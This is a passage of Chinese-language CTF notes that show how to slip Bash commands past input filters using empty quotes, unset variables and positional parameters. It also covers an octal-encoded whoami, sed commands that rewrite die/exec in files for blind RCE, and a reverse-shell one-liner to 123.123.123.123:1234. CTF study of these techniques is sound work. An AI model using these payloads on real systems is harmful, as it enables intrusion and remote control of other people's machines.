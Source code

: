 - 利用`空`绕过

  Bash 很多东西都是`空`，例如`''`、不存在的变量等等，就可以利用他们来隔开命令

  ```
  l''s：l''s == ls
  
  "l""s"或者'l''s'或者'l'"s"或者l"s"...
  
  l${anything}s：因为anything不存在，是空的，所以l${anything}s == ls，与l''s原理一样。
  
  l$1s、l$2s、...、l$9s：相比上面那个，这个方法不用{}也可以，因为这类数字名变量的名称界定比较特殊。至于它们是什么意思：
  $0: Shell 本身，所以这里有个技巧是 {printf,"\167\150\157\141\155\151"} | $0
  $1~$n: Shell 的各参数值。$1 是第 1 个参数、$2 是第 2 个参数，以此类推。
  
  l$*s、l$@s：它们都表示所有 Shell 参数的列表，不包括脚本本身（即 $1 - $n）。但是还是有区别的。举例：执行 test.sh 1 2 3时，"$*"表示"1 2 3"，而"$@"表示"1" "2" "3"。二者没有被引号引起来时是一样的都为"1 2 3"，只有当被引号引起来后才不一样。
  
  l$!s：$!代表 Shell 最后运行的后台 Process 的 PID。可以简单地理解为，例如一个命令放到后台运行：ping baidu.com & 后它的 PID，没有放到后台的命令那就是空。
  
  c$()at key：$()代表执行一个空的命令，返回值也为空。当然这样也是可以的：l$(echo s)。
  l``s：这样当然也可以了。
  ```

  >`$0$1$2$3...`举例
  >
  >```
  >soyamilk@DESKTOP-13QDS1A:~$ cat test01.sh
  >echo $0
  >echo $1
  >echo $2
  >soyamilk@DESKTOP-13QDS1A:~$ . test01.sh Hello World!
  >-bash
  >Hello
  >World!
  >soyamilk@DESKTOP-13QDS1A:~$
  >```
  >
  >

### 无回显RCE

1. 重定向写文件

   >`ls | xargs sed -i "s/die/echo/"`
   >把die 替换成 echo
   >`ls | xargs sed -i "s/exec/system/"`
   >把exec 替换成 system

   2023 hectf EZphp

2. 反弹shell

   ```
   bash -c 'bash -i >& /dev/tcp/123.123.123.123/1234 0>&1'
   ```
